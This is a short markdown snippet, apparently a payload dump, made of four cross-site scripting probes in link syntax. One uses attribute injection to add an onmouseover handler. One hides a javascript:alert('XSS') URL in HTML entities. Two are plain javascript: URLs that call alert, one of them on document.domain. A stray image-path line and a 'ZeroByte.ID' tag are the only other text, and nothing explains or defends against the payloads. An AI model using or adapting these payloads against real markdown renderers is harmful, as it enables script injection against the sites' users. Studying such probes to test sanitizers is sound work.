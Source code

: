 

[Schopath](https://github.com/"/onmouseover="alert(/schopath/)"/x="ZeroByte.ID)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[TEST](javascript:alert(document.domain))
[Click Me](javascript:alert('Uh oh...'))
